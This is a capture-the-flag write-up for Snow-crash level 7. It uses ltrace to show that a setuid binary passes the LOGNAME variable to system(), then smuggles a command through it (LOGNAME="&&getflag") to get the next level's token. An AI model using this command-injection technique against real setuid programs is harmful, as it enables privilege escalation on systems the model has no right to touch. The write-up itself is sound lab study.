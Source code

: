 ```yaml
---
title:  "Snow-crash Level07"
excerpt: "Project SECURITY. This project is a modest introduction to the wide world of cyber security. A world where you’ll have no margin for errors."

tags:
  - [CyberSecurity,Github, Git]

toc: true
toc_sticky: true

date: 2024-2-15
last_modified_at: 2024-02-15
categories: cyber-security
permalink: /cyber-security/snow-crash/
---
```


#### 1. The password of `Level07` is the token that got from `Level06`.

```bash
wiok45aaoguiboiki2tuin6ub
```

#### 2. So, try login to Level07 with the password we got from Level06 and try to put the command `ls`. We can see the file `Level07`. and try to execute.

```bash
level06@SnowCrash:~$ su level07
Password:
level07@SnowCrash:~$ ls -la
total 24
dr-x------ 1 level07 level07  120 Mar  5  2016 .
d--x--x--x 1 root    users    340 Aug 30  2015 ..
-r-x------ 1 level07 level07  220 Apr  3  2012 .bash_logout
-r-x------ 1 level07 level07 3518 Aug 30  2015 .bashrc
-r-x------ 1 level07 level07  675 Apr  3  2012 .profile
-rwsr-sr-x 1 flag07  level07 8805 Mar  5  2016 level07
level07@SnowCrash:~$ ./level07
level07
```
#### 3. Try to put `file` command
```bash
level07@SnowCrash:~$ file level07
level07: setuid setgid ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked (uses shared libs), for GNU/Linux 2.6.24, BuildID[sha1]=0x26457afa9b557139fa4fd3039236d1bf541611d0, not stripped
```
It's a binary file. 

#### 4. So, let's use ltrace command to understand/to debug the behavior of this program

```bash
level07@SnowCrash:~$ ltrace ./level07
__libc_start_main(0x8048514, 1, 0xbffff7a4, 0x80485b0, 0x8048620 <unfinished ...>
getegid()                                 = 2007
geteuid()                                 = 2007
setresgid(2007, 2007, 2007, 0xb7e5ee55, 0xb7fed280) = 0
setresuid(2007, 2007, 2007, 0xb7e5ee55, 0xb7fed280) = 0
getenv("LOGNAME")                         = "level07"
asprintf(0xbffff6f4, 0x8048688, 0xbfffff2c, 0xb7e5ee55, 0xb7fed280) = 18
system("/bin/echo level07 "level07
 <unfinished ...>
--- SIGCHLD (Child exited) ---
<... system resumed> )                    = 0
+++ exited (status 0) +++
```
We can see the getenv("LOGNAME") = "level07"

```
level07@SnowCrash:~$ echo $LOGNAME
level07
```
#### 5. Try to do the small tests as below.

```
level07@SnowCrash:~$ export LOGNAME="HELLO_WORLD";
level07@SnowCrash:~$ ./level07
HELLO_WORLD
```

```
level07@SnowCrash:~$ export
declare -x HOME="/home/user/level07"
declare -x LANG="en_US.UTF-8"
declare -x LC_CTYPE="UTF-8"
declare -x LC_TERMINAL="iTerm2"
declare -x LC_TERMINAL_VERSION="3.4.23"
declare -x LESSCLOSE="/usr/bin/lesspipe %s %s"
declare -x LESSOPEN="| /usr/bin/lesspipe %s"
declare -x LOGNAME="HELLO_WORLD"
```
We can see the line `declare -x LOGNAME="HELLO_WORLD"`

#### 6. So then, we try to put getflag in the LOGNAME. 

```bash
level07@SnowCrash:~$ export LOGNAME="&&getflag"
level07@SnowCrash:~$ ./level07

Check flag.Here is your token : fiumuikeil55xe9cu4dood66h
```

#### 7. We got a token for level 08. 
```
Check flag.Here is your token : fiumuikeil55xe9cu4dood66h
```